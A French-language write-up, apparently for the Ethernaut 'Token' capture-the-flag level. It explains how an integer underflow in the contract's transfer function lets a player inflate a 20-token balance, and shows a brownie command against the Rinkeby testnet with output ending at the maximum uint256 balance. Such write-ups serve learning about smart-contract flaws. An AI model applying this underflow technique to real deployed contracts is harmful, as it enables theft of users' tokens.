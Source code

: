 # Token

## Objectif
L'objectif de ce niveau et de récupérer un maximum de token en partant de 20 tokens

## Récupération de tokenxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
La seule fonction du contract permettant de récupérer des tokens est [transfer](contracts/token.sol#13)

Le contrat utilise [solidity 0.6.0](contracts/token.sol#2) qui est sujet au overflow.

En envoyant une demande de transfer avec un montant supérieur à la `balance`, un [overflow](contracts/token.sol#15) va avoir lieu et ainsi rajouter des tokens à la `balance`

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0xB573cBF16170c087DC3fF81d49B2E2106550859d" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

TokenProject is the active project.

Running 'scripts/attack.py::main'...
Balance before: 20
Transaction sent: 0x6f079cf8d56c170fe3ac28cc2dec09b1a0e1c1c176a66b975a134ac74ce82e66
  Gas price: 1.135137131 gwei   Gas limit: 54220   Nonce: 226
  Transaction confirmed   Block: 10335310   Gas used: 49291 (90.91%)

Required confirmations: 2/2  
  Transaction confirmed   Block: 10335310   Gas used: 49291 (90.91%)

Balance after: 115792089237316195423570985008687907853269984665640564039457584007913129639935
```
